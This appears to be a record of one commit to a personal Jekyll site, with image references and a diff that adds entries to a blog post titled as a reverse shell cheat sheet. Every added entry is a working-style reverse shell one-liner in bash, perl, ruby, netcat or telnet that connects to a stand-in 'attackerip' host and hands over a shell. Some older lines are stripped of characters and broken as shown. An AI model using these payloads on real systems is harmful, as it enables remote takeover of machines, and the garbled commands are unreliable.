

Before and after one commit to SevenLayerJedi/sevenlayerjedi.github.io, a Jekyll site: the page built from _posts/2020-04-28-reverse-shell-cheat-sheet.md, in a window 1280 px wide and 1400 px high, scrolled down 604 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; some of the changed text lies outside the part shown.

Commit message:
Updated Post Data

````diff
--- a/_posts/2020-04-28-reverse-shell-cheat-sheet.md
+++ b/_posts/2020-04-28-reverse-shell-cheat-sheet.md
@@ -26,10 +26,28 @@
 bash -i & devtcp10.0.0.18080 0&1
 ```
 
+```
+exec /bin/bash 0&0 2>&0
+```
+
+```
+exec 5<>/dev/tcp/attackerip/4444
+cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
+while read line 0<&5; do $line 2>&5 >&5; done
+```
+
 ## PERL
 
 ```
 perl -e 'use Socket;$i=10.0.0.1;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(tcp));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,&S);open(STDOUT,&S);open(STDERR,&S);exec(binsh -i);};'
+```
+
+```
+perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
+```
+
+```
+perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
 ```
 
 ## Python
@@ -50,6 +68,10 @@
 ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
 ```
 
+```
+ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
+```
+
 ## PERL
 
 ```
@@ -60,6 +82,28 @@
 
 ```
 nc -e binsh 10.0.0.1 1234
+```
+
+```
+nc -c /bin/sh attackerip 4444
+```
+
+```
+/bin/sh | nc attackerip 4444
+```
+
+```
+rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
+```
+
+## Telnet
+
+```
+rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
+```
+
+```
+telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
 ```
 
 ## Java
````
